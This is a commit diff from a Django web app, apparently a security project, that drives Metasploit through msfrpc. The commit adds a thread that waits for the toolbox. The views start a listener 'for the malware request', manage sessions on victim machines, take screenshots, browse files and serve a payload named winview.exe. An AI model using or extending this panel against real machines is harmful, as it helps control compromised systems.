

Before and after one commit to vruello/anssi-project, a Django app: page / in a window 1280 px wide. Shown: the part 87-535 px from the top of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
Add thread to check existence of toolbox (msfrpc)

```diff
--- a/server/templates/server/home.html
+++ b/server/templates/server/home.html
@@ -8,6 +8,7 @@
         <hr class="my-4">
         <p>First, you need to set up a listener so that this server listen for the malware request. <em>This may take a few seconds...</em></p>
         <a class="btn btn-primary btn-lg" href="{% url "init" %}" role="button">Launch the listener</a>
+        <p>Toolbox: {{ flag }}</p>
     </div>
 
 
--- a/server/views.py
+++ b/server/views.py
@@ -8,38 +8,72 @@ from datetime import datetime
 from django.core.files.storage import FileSystemStorage
 import anssi.settings
 
+import time
+from threading import Thread
 
 
-import time
-# Create your views here.
+# Initialization of MSFTOOLBOX
+toolbox = None
 
-# Global
-toolbox = MsfToolbox()
+def handler():
+	""" Thread handler """
+	global toolbox
+	while not toolbox:
+		try:
+			toolbox = MsfToolbox()
+		except:
+			toolbox = None
+		time.sleep(1)
+
+try:
+	# msfrpc has been launched
+	toolbox = MsfToolbox()
+except:
+	# Launch a thread to check if msfrpc has been launched
+	t = Thread(target=handler)
+	t.start()
 
 
+# Views
 def init_worker(request):
 	lport = request.GET.get('lport', None)
 	payload = request.GET.get('payload', None)
 	toolbox.exploit_multi_handler(lport, payload)
 	return JsonResponse({'init':True})
 
+
 def init(request):
+	# Check toolbox
+	if not toolbox:
+		return redirect(home)
+
 	return render(request, 'server/init.html')
 
 
 def jobs(request):
+	# Check toolbox
+	if not toolbox:
+		return redirect(home)
+
 	jobs = toolbox.get_jobs()
 	return render(request, 'server/jobs.html', {'jobs': jobs, 'jobs_nbr': len(jobs)})
+
 
 def jobs_kill(request, id):
 	toolbox.kill_job(id)
 	return redirect('jobs')
 
+
 def home(request):
-    return render(request, 'server/home.html')
+	flag = (toolbox != None)
+	return render(request, 'server/home.html', {'flag': flag})
 
 
 def sessions(request):
+	# Check toolbox
+	if not toolbox:
+		return redirect(home)
+
 	sessions = toolbox.get_sessions()
 	return render(request, 'server/sessions.html', {'sessions': sessions, 'sessions_nbr': len(sessions)})
 
@@ -52,9 +86,11 @@ def session_information(request, id):
 	sysinfo = toolbox.get_sysinfo(int(id))
 	return render(request, 'server/session_information.html', {'id': int(id), 'infos': sysinfo })
 
+
 def session_close(request, id):
 	toolbox.session_close(int(id))
 	return redirect('sessions')
+
 
 def action_screenshot(request, id):
 	toolbox.post_take_screenshot(session=int(id))
@@ -105,9 +141,8 @@ def session_explorer(request, id):
 	(pwd, files, error) = toolbox.ls(shell)
 
 	#toolbox.add_routing_files(files)
+	return render(request, 'server/session_explorer.html', {'id': int(id), 'files': files, 'pwd': pwd, 'ls_error': error, 'have_uploaded': upload != None, 'have_uploaded_successfully': uploaded})
 
-
-	return render(request, 'server/session_explorer.html', {'id': int(id), 'files': files, 'pwd': pwd, 'ls_error': error, 'have_uploaded': upload != None, 'have_uploaded_successfully': uploaded})
 
 def upload_payload(request):
 	payload_link = '/media/payload/winview.exe'
```
